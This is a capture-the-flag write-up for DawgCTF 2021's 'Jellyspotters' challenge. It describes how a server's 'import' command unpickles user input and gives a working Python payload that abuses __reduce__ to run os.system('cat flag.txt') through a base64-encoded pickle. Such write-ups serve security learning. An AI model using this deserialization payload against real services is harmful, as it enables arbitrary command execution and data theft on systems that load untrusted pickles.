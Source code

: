 ## Jellyspotters

### Challenge Description  
The leader of the Jellyspotters has hired you to paint them a poster for their convention, using this painting program. Also, the flag is in `~/flag.txt`.  
`nc umbccd.io 4200`

### Writeup
We are given a server address. When you connect to this server, you see an interactive server that has some commands:  
![commands](https://github.com/aahsani/CTFWriteups/blob/master/DawgCTF2021/PWN/Jellyspotter/commands.png)   
If we use `import` command with some random string, it reaches an error and this error is in python `pickle` library. This lib has RCE vulnerability and we can run our code in this server. We generated a script runnig `cat flag.txt`.   
```python
import pickle
import sys
import base64

class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,("cat flag.txt",))

items = []
items.append(PickleRCE())
p = pickle.dumps(items)
print(base64.b64encode(p))
```
We gave the base64 dump of code bellow as input to `import` command and we got the flag.  
![import](https://github.com/aahsani/CTFWriteups/blob/master/DawgCTF2021/PWN/Jellyspotter/import.png)  